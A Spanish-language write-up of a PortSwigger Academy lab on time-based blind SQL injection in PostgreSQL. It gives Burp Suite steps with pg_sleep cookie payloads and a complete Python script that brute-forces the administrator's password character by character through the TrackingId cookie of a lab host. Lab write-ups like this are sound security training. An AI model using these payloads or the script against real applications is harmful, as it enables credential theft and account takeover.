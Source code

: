 ```yaml
---
title: Blind SQL injection with time delays and information retrieval- portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


#### columns dump time based

```c
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1

select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1

```


1. Visite la página principal de la tienda y utilice Burp Suite para interceptar y modificar la solicitud que contiene la `TrackingId`cookie.
2. Modificar la `TrackingId`cookie, cambiándola por:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
    
    Verifique que la aplicación tarde 10 segundos en responder.
    
3. Ahora cámbialo a:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
    
    Verifique que la aplicación responda de inmediato y sin demoras. Esto demuestra cómo se puede probar una sola condición booleana e inferir el resultado.
    
4. Ahora cámbialo a:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Verifique que la condición sea verdadera, confirmando que hay un usuario llamado `administrator`.
    
5. El siguiente paso es determinar cuántos caracteres tiene la contraseña del `administrator`usuario. Para ello, cambie el valor a:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Esta condición debe ser verdadera, lo que confirma que la contraseña tiene más de 1 carácter.
    
6. Envía una serie de valores de seguimiento para probar distintas longitudes de contraseña. Enviar:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    A continuación, enviar:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Y así sucesivamente. Puedes hacerlo manualmente usando [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater) , ya que es probable que la longitud sea corta. Cuando la condición deja de ser verdadera (es decir, cuando la aplicación responde inmediatamente sin un retraso de tiempo), has determinado la longitud de la contraseña, que en realidad tiene 20 caracteres.
    
7. Después de determinar la longitud de la contraseña, el siguiente paso es probar el carácter en cada posición para determinar su valor. Esto implica una cantidad mucho mayor de solicitudes, por lo que debe utilizar [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder) . Envíe la solicitud en la que está trabajando a Burp Intruder, utilizando el menú contextual.
8. En la pestaña Posiciones de Burp Intruder, cambie el valor de la cookie a:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Esto utiliza la `SUBSTRING()`función para extraer un solo carácter de la contraseña y probarlo con un valor específico. Nuestro ataque recorrerá cada posición y valor posible, probando cada uno de ellos por turno.
    
9. Coloque marcadores de posición de carga útil alrededor del `a`carácter en el valor de la cookie. Para ello, seleccione solo el `a`y haga clic en el botón "Agregar §". Entonces debería ver lo siguiente como valor de la cookie (observe los marcadores de posición de carga útil):
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
10. Para probar el carácter en cada posición, deberá enviar las cargas útiles adecuadas en la posición de carga útil que haya definido. Puede suponer que la contraseña contiene solo caracteres alfanuméricos en minúscula. Vaya a la pestaña Cargas útiles, verifique que esté seleccionada la opción "Lista simple" y, en "Configuración de carga útil", agregue las cargas útiles en el rango a - z y 0 - 9. Puede seleccionarlas fácilmente utilizando el menú desplegable "Agregar de la lista".
11. Para saber cuándo se envió el carácter correcto, deberás controlar el tiempo que tarda la aplicación en responder a cada solicitud. Para que este proceso sea lo más confiable posible, debes configurar el ataque Intruder para que emita solicitudes en un solo hilo. Para ello, ve a la pestaña "Grupo de recursos" y agrega el ataque a un grupo de recursos con la opción "Máximo de solicitudes simultáneas" establecida en `1`.
12. Inicie el ataque haciendo clic en el botón "Iniciar ataque" o seleccionando "Iniciar ataque" en el menú Intruso.
13. Burp Intruder monitorea el tiempo que tarda en recibirse la respuesta de la aplicación, pero por defecto no muestra esta información. Para verla, ve al menú “Columnas” y marca la casilla “Respuesta recibida”.
14. Revise los resultados del ataque para encontrar el valor del carácter en la primera posición. Debería ver una columna en los resultados llamada "Respuesta recibida". Esta generalmente contendrá un número pequeño, que representa la cantidad de milisegundos que la aplicación tardó en responder. Una de las filas debería tener un número mayor en esta columna, en la región de 10 000 milisegundos. La carga útil que se muestra para esa fila es el valor del carácter en la primera posición.
15. Ahora, simplemente tienes que volver a ejecutar el ataque para cada una de las otras posiciones de caracteres en la contraseña, para determinar su valor. Para ello, vuelve a la ventana principal de Burp y a la pestaña Posiciones de Burp Intruder, y cambia el desplazamiento especificado de 1 a 2. Entonces deberías ver lo siguiente como el valor de la cookie:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
16. Lanza el ataque modificado, revisa los resultados y observa el carácter en el segundo desplazamiento.
17. Continúe este proceso probando el desplazamiento 3, 4, y así sucesivamente, hasta que tenga la contraseña completa.
18. En el navegador, haga clic en "Mi cuenta" para abrir la página de inicio de sesión. Utilice la contraseña para iniciar sesión como `administrator`usuario.

```c
import requests
from pwn import * 
import time

#Cookie: TrackingId=cUnp1Gkl2HtZ4Jyi; session=dkPDdDnDrJzIT2wJYQGR2CYgbeWn2sMh
host='0ac000cd044ff97b81f517a000d70092.web-security-academy.net'
letters='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'
session='tKnlc10JAbJjsaPI8nSBEBCkq167uWUH'
id='UPjejKHSEADdIxhW'

url_main=f'https://{host}'
url_request=f'{url_main}/filter?category=Pets'

#payload = "cUnp1Gkl2HtZ4Jyi' AND (SELECT SUBSTR(schema_name,1,1) FROM information_schema.schemata='u')"

def ctrl_C(signal, frame):
    print('[+] exit')
    exit(1)

def valid_sql_injection():
    payload = "%s' ||(select 1 from pg_sleep(10))--" % (id)
    return send_request(payload)


def get_name_credentials(letters):
    if valid_sql_injection():
        p1=log.progress('Brute Force sleep to 10s')
        p2=log.progress('Password')
        password=''
        for start in range(1,21):
            for word in letters:
                #select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1
                payload = "%s' ||(select case when substring(password,%d,1)='%s' then pg_sleep(10) else pg_sleep(0) end from users where username='administrator' limit 1)--" %(id,start,word)
                p1.status("%s" % payload)
                if send_request(payload):
                    password+=word
                    p2.status('%s' % (password))
                    break
                p2.status('%s' % (password))
    else:
        print('[+] Error, sql injection not found ')

        
def send_request(payload):
    
    cookies = {
          'TrackingId': payload,
          'session': session
          }
        #Cookie': TrackingId=UPjejKHSEADdIxhW'||(select case when substring(password,1,1)='fuzz' then pg_sleep(5) else pg_sleep(0) end from table_name where username='administrator' limit 1)--; session=tKnlc10JAbJjsaPI8nSBEBCkq167uWUH
    headers = {
        'Host': host,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'es-ES,es;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Dnt': '1',
        'Referer': url_request,
        'Upgrade-Insecure-Requests': '1',
        'Sec-Fetch-Dest': 'document',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-Site': 'same-origin',
        'Sec-Fetch-User': '?1',
        'Te': 'trailers'


          }
    
    time_start=time.time()

    response = requests.get(url_request, cookies=cookies,headers=headers)

    time_end=time.time()

    if time_end - time_start>10:
        return True
    else:
        return False
    #print(f"An error occurred: {e}")


if __name__ == "__main__":
    signal.signal(signal.SIGINT,ctrl_C)
    #print(valid_sql_injection())
    get_name_credentials(letters)
```

![20240805054751.png](20240805054751.png)

